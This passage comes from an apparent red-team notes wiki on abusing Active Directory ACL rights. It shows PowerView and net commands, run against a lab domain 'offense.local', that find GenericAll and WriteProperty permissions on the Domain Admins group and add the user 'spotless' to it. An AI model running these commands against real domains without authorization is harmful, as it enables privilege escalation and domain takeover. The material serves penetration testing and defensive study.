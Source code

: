 ### GenericAll on Group

Let's see if `Domain admins` group has any weak permissions. First of, let's get its `distinguishedName`:

```csharp
Get-NetGroup "domain admins" -FullData
```

![](../../.gitbook/assets/4.png)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

We can see that our attacking user `spotless` has `GenericAll` rights once again:

![](../../.gitbook/assets/5.png)

Effectively, this allows us to add ourselves (the user `spotless`) to the `Domain Admin` group:

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/6.gif)

Same could be achieved with Active Directory or PowerSploit module:

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

### GenericAll / GenericWrite / Write on Computer

If you have these privileges on a Computer object, you can pull [Kerberos **Resource-based Constrained Delegation**: Computer Object Take Over](resource-based-constrained-delegation.md) off.

### WriteProperty on Group

If our controlled user has `WriteProperty` right on `All` objects for `Domain Admin` group:

![](../../.gitbook/assets/7.png)

We can again add ourselves to the `Domain Admins` group and escalate privileges:

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/8.png)
